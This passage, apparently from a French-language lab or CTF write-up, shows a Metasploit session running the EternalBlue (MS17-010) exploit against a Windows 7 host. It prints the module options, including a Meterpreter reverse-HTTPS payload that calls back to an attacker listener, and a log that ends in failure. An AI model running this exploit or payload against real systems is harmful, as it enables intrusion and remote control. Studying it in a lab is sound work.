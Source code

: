 Delta
-----

Qu'en est-il de cette fameuse faille SMB ? Metasploit dispose de plusieurs exploits pour cette faille largement connue sous le nom d'*EternalBlue* :  

```plain
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.1.1.15        yes       The target address range or CIDR identifier
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.

Payload options (windows/x64/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path

Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs

msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started HTTPS reverse handler on https://10.254.0.29:443
[*] 10.1.1.15:445 - Connecting to target for exploitation.
[+] 10.1.1.15:445 - Connection established for exploitation.
[+] 10.1.1.15:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.1.1.15:445 - CORE raw buffer dump (42 bytes)
[*] 10.1.1.15:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.1.1.15:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.1.1.15:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.1.1.15:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.1.1.15:445 - Trying exploit with 12 Groom Allocations.
[*] 10.1.1.15:445 - Sending all but last fragment of exploit packet
[*] 10.1.1.15:445 - Starting non-paged pool grooming
[+] 10.1.1.15:445 - Sending SMBv2 buffers
[+] 10.1.1.15:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.1.1.15:445 - Sending final SMBv2 buffers.
[*] 10.1.1.15:445 - Sending last fragment of exploit packet!
[*] 10.1.1.15:445 - Receiving response from exploit packet
[+] 10.1.1.15:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.1.1.15:445 - Sending egg to corrupted connection.
[*] 10.1.1.15:445 - Triggering free of corrupted buffer.
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.1.1.15:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.1.1.15:445 - Connecting to target for exploitation.
[-] 10.1.1.15:445 - Rex::ConnectionTimeout: The connection timed out (10.1.1.15:445).
```